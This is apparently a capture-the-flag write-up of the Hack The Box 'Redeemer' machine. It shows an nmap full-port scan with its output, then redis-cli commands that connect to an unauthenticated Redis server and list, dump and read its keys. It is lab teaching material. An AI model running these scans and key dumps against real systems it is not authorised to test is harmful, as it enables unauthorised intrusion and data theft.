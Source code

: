 Title: Redeemer Machine
Date: 2024-05-19 19:10 
Category: HTB
Slug: redeemer


# Redeemer
#HTB/STARTING_POINT

This machine show you how to interact with a Redis server .


Doing Nmap scan show open port and specifically redid port open on :

```sh
kali@kali:~$ nmap -sC -sV -T4 -p- -oA nmap/Redeemer <serverIp>
```

Result :

```shell-session
# Nmap 7.93 scan initiated Thu Aug 24 02:07:23 2023 as: nmap -sC -sV -T4 -p- -oA nmap/Redeemer 10.129.6.102
Warning: 10.129.6.102 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.6.102
Host is up (0.11s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
6379/tcp  open     redis   Redis key-value store 5.0.7
23201/tcp filtered unknown
23819/tcp filtered unknown
25153/tcp filtered unknown
34008/tcp filtered unknown
35903/tcp filtered unknown
39049/tcp filtered unknown
40140/tcp filtered unknown
47535/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 24 02:25:02 2023 -- 1 IP address (1 host up) scanned in 1059.07 seconds

```

Connect to redis ;
```sh
kali@kali:~$ redis-cli -h <hostname/ip>
```

Get all db ;
```sh
redis-cli> config get databases
```

Get existed keys with correspond db index;
```sh
redis-cli> info keyspace 
```

Select desired db;
```sh
redis-cli> select <N>
```

Get info on Redis server;
```sh
redis-cli> info
```

Dump all keys;
```sh
redis-cli> keys *
```

Get random keys;
```sh
redis-cli> randomkey 
```

Print specified key value;
```sh
redis-cli> get <keyname>
```
